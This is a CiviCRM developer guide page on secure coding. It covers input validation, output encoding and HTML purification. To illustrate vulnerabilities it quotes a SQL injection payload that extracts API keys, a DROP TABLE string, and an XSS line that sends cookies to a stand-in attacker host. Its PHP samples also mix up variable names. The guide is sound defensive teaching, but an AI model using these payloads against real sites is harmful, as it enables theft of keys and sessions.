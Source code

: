 # Secure Coding

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods {:#sanitization}

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format. This works well for data of known (and simple) types, but can be much more difficult (and less effective) when used for complex data types.

Validation is very important for data *inputs*. Likewise, it's a good idea to use it for *outputs*, too. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.

By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand the difference between inputs and outputs, as well as the different sanitization techniques, the question arises: *at what point in my code should I sanitize? Input, or output?*

### In an ideal world {:#ideal}

Within the larger community of developers (outside of CiviCRM), the current [best-practices say](https://security.stackexchange.com/a/95330/32455) that developer should do the following

* For inputs:
    * **Validate data inputs** as strictly as possible.
* For outputs:
    * *Also* **validate data outputs** as strictly as possible (to provide some redundant protection).
    * **Encode data outputs** whenever possible (which is most of the time).
    * Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

!!! failure "In a misguided world"

    A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `&quot;Foo Bar&quot; &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### CiviCRM's current strategy {:#strategy}

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode the HTML output. In other places, (e.g. in SQL queries) CiviCRM encodes outputs. In 2012, developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security.

CiviCRM's strategy is as follows:

* Inputs:
    1. Validate inputs when possible
    1. For non-rich text, [partially encode inputs](/security/inputs.md#input-encoding)
    1. For rich text, [purify inputs](/security/inputs.md#input-purification)
* Outputs:
    1. HTML:
        * Do *not* perform HTML encoding for [data between tags](/security/outputs.md#between-tags)
        * *Do* perform HTML encoding for [data within attributes](/security/outputs.md#in-attributes)
    1. SQL: [validate and encode](/security/outputs.md#sql)
    1. Shell: [validate and encode](/security/outputs.md#shell)


